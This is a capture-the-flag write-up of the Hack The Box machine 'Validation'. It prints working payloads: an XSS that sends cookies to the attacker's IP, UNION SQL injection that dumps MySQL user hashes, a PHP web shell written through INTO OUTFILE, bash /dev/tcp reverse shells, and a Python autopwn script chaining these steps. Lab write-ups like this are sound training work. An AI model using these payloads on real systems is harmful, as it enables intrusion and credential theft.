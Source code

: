 # Validation

**Date**: 15/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation)

---

Let’s start testing the connection with the target machine:

<figure><img src="../../.gitbook/assets/validation0.png" alt=""><figcaption></figcaption></figure>

Now, let’s scan the TCP Ports of the target machine:

<figure><img src="../../.gitbook/assets/validation1.png" alt=""><figcaption></figcaption></figure>

There are 4 open ports: 22 (ssh), 80 (http), 4566 (kwtc), 8080 (http-proxy).

Let’s try to gather more info of the services running in these ports:

<figure><img src="../../.gitbook/assets/validation2.png" alt=""><figcaption></figcaption></figure>

The port 4566 doesn’t seem to be a kwtc service…

Let’s do a whatweb scan on the http services ports:

<figure><img src="../../.gitbook/assets/validation3.png" alt=""><figcaption></figcaption></figure>

Ok, let’s see how the website hosted on port 80 looks:

<figure><img src="../../.gitbook/assets/validation4.png" alt=""><figcaption></figcaption></figure>

A simple form where you can input a username, select a country and add your entry clicking on Join Now button.

Let’s do a test using angellm as username and Spain as country.

<figure><img src="../../.gitbook/assets/validation5.png" alt=""><figcaption></figcaption></figure>

The website displays it now. Interesting. Let’s try some payloads…

<figure><img src="../../.gitbook/assets/validation6.png" alt=""><figcaption></figcaption></figure>

Ok, it seems to be vulnerable to XSS.

<figure><img src="../../.gitbook/assets/validation7.png" alt=""><figcaption></figcaption></figure>

The website is setting a cookie… Maybe we can use the XSS to try to grab the session cookie?

Th`<script>fetch('http://10.10.14.234?cookie=' + btoa(document.cookie) );</script>`

Let’s open a http server in our machine and send the payload:

<figure><img src="../../.gitbook/assets/validation8.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/validation9.png" alt=""><figcaption></figcaption></figure>

I have set the value of the cookie with the one obtained by the script but nothing happened after reloading the page. Let’s enumerate the directories:

<figure><img src="../../.gitbook/assets/validation10.png" alt=""><figcaption></figcaption></figure>

It discovered css and js directories, also discovered a server-status directory we have no permissions to access to.

Let’s enumerate .txt and .php files:

<figure><img src="../../.gitbook/assets/validation11.png" alt=""><figcaption></figcaption></figure>

The only php file we have not visited yet is the config.php and is empty… Let’s go back to the form.

I will intercept a request and this time I’ll modify the country:

`username=ll&country='`

<figure><img src="../../.gitbook/assets/validation12.png" alt=""><figcaption></figcaption></figure>

Mmm… fatal error. Sounds good to me. Maybe we have an error based SQL injection? Let’s see…

`username=ll&country=' UNION SELECT 1 -- -`

<figure><img src="../../.gitbook/assets/validation13.png" alt=""><figcaption></figcaption></figure>

`username=ll&country=' UNION SELECT 1,2 -- -`

<figure><img src="../../.gitbook/assets/validation14.png" alt=""><figcaption></figcaption></figure>

`' UNION SELECT database()--`

<figure><img src="../../.gitbook/assets/validation15.png" alt=""><figcaption></figcaption></figure>

The database name is `registration`. Let’s see the tables of that database:

`' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'registration' -- -`

<figure><img src="../../.gitbook/assets/validation16.png" alt=""><figcaption></figcaption></figure>

There is only one table called also `registration` let’s find the columns name of the table:

`' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'registration' -- -`

<figure><img src="../../.gitbook/assets/validation17.png" alt=""><figcaption></figcaption></figure>

Very interesting! There are 4 columns: `username`, `userhash`, `country` and `regtime`. Let’s try to extract all the usernames and userhash:

<figure><img src="../../.gitbook/assets/validation18.png" alt=""><figcaption></figcaption></figure>

Mmm… not very interesting, `fff` and `ll` are the usernames I used to test the SQLi, and there is no other username there…

Let’s list all databases:

`' UNION SELECT concat(schema_name) FROM information_schema.schemata -- -`

<figure><img src="../../.gitbook/assets/validation19.png" alt=""><figcaption></figcaption></figure>

`' UNION SELECT concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='mysql' -- -`

<figure><img src="../../.gitbook/assets/validation20.png" alt=""><figcaption></figcaption></figure>

`' UNION SELECT concat(column_name) FROM information_schema.COLUMNS WHERE table_name='user' -- -`

<figure><img src="../../.gitbook/assets/validation21.png" alt=""><figcaption></figcaption></figure>

`' UNION SELECT group_concat(User,':',Password SEPARATOR '<br>') FROM mysql.user -- -`

<figure><img src="../../.gitbook/assets/validation22.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/validation23.png" alt=""><figcaption></figcaption></figure>

I tried to log in via ssh using that password with no success. Let’s se if we can inject content using the SQLi:

`' UNION SELECT "Prueba de contenido" into outfile '/var/www/html/prueba.txt' -- -`

<figure><img src="../../.gitbook/assets/validation24.png" alt=""><figcaption></figcaption></figure>

Yeah, we can.

Let’s try to upload a php webshell!

`' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/ws.php' -- -`

<figure><img src="../../.gitbook/assets/validation25.png" alt=""><figcaption></figcaption></figure>

Now we can send commands as www-data. Let’s try to obtain a reverse shell to operate more easily:

`http://10.129.85.205/ws.php?cmd=bash -i >& /dev/tcp/10.10.14.234/443 0>&1`

<figure><img src="../../.gitbook/assets/validation26.png" alt=""><figcaption></figcaption></figure>

We didn’t get a reverse shell. Maybe because it is not URL-Encoded? Let’s try it:

`http://10.129.85.205/ws.php?cmd=bash -i >%26 %2Fdev%2Ftcp%2F10.10.14.234%2F443 0>%261`

Same results. In cases like this one, sometimes it’s necessary to execute the command like this:

`http://10.129.85.205/ws.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.234/443 0>&1"`

But URL-Encoded:

<figure><img src="../../.gitbook/assets/validation27.png" alt=""><figcaption></figcaption></figure>

Another way to gain access would be to script an autopwn in python like this one and executing it:

```bash
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) !=3:
    log.failure("Uso: %s <ip-address> filename" %sys.argv[0])
    sys.exit(1)

# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url="http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username' : 'whatever',
        'country' : """'UNION SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/%s' -- -""" %(filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
        'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.234/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data_post);

if __name__=='__main__':

    createFile()

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

<figure><img src="../../.gitbook/assets/validation28.png" alt=""><figcaption></figcaption></figure>

Ok, so we are logged as www-data, let’s see what can be found:

<figure><img src="../../.gitbook/assets/validation29.png" alt=""><figcaption></figcaption></figure>

Config files sometimes have credentials inside, let’s cat it:

<figure><img src="../../.gitbook/assets/validation30.png" alt=""><figcaption></figcaption></figure>

Yeah! There are some credentials here.

<figure><img src="../../.gitbook/assets/validation31.png" alt=""><figcaption></figcaption></figure>

Investigating a little more we got the user flag.

Now we have to escalate privileges:

<figure><img src="../../.gitbook/assets/validation32.png" alt=""><figcaption></figcaption></figure>

There is no user named as uhc. Maybe is root reusing the password?

<figure><img src="../../.gitbook/assets/validation33.png" alt=""><figcaption></figcaption></figure>

Yeah, it is. And that’s how we obtain the root flag!